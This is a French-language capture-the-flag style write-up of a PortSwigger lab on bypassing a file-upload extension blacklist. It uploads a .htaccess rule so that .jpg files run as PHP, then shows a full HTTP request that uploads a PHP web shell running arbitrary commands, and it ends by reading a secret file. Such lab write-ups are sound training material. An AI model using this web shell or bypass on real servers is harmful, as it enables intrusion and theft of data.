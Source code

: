 # Lab

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

## Solution

Les fichiers php ne sont pas autorisés à l'upload et les contournements en `php5` et `phtml` ne fonctionnent pas non plus.

En revanche, onpeut uploader un fichier `.htaccess` qui va permettre d'executer du php via une autre extension dans le dossier `/files/avatars` :

```bash
AddType application/x-httpd-php .jpg
```

Ainsi, on peut uploader un fichier php avec l'extension `.jpg` et l'executer.

```http
POST /my-account/avatar HTTP/2
Host: 0a3200c504427ca780fa8ff100890069.web-security-academy.net
Cookie: session=sqgevvnl5hwUtm3htEthXY61QBMcUAN9
Content-Length: 745
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3200c504427ca780fa8ff100890069.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3EiD515wcz0AvM80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3200c504427ca780fa8ff100890069.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundary3EiD515wcz0AvM80
Content-Disposition: form-data; name="avatar"; filename="simple.jpg"
Content-Type: application/octet-stream

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2&<1');
    }
?>
</pre>
</body>
</html>
------WebKitFormBoundary3EiD515wcz0AvM80
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary3EiD515wcz0AvM80
Content-Disposition: form-data; name="csrf"

hvCLFMQLN0P5iKM5h8v5E9shDiWDhhNT
------WebKitFormBoundary3EiD515wcz0AvM80--
```

Puis maintenant, on peut executer des commandes comme `cat /home/carlos/secret`.
